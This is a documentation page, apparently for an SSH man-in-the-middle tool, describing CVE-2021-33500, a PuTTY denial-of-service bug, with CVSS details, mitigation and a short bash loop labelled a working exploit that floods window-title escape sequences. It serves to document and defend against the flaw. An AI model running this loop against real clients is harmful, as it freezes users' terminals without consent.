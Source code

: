 .. _cve-2021-33500:

:bdg-danger:`CVSS 7.5` CVE-2021-33500
=====================================

.. card::

    :bdg-danger:`CVSS 7.5` CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
    ^^^
    PuTTY before 0.75 on Windows allows remote servers to cause a denial of service
    (Windows GUI hang) by telling the PuTTY window to change its title repeatedly at high speed,
    which results in many SetWindowTextA or SetWindowTextW calls.

    NOTE: the same attack methodology may affect some OS-level GUIs on Linux or other platforms for similar reasons.
    +++
    **Affected Software:**

    * PuTTY < 0.75


Description
-----------

A vulnerability in PuTTY < 0.75 freezes the entire, leading inevitably to a manual restart. This happens when executing
a simple command to repeatedly change the terminals title.

Set window title from terminal:

.. code-block:: bash

    $ PS1=''
    $ echo -ne "\033]0; NEW_TITLE \007"

Thus, an working exploit would be:

.. code-block:: bash

    $ PS1=''
    $ while :
    > do
    > echo -ne "\033]0; NEW_TITLE${RANDOM}  \007"
    > done


Using the injection functionality of the mitm Server, this exploit can be executed immediately when a client connects
to the server via PuTTY.


Mitigation
----------

Update PuTTY to version >= 0.75


References
----------

* https://nvd.nist.gov/vuln/detail/CVE-2021-33500
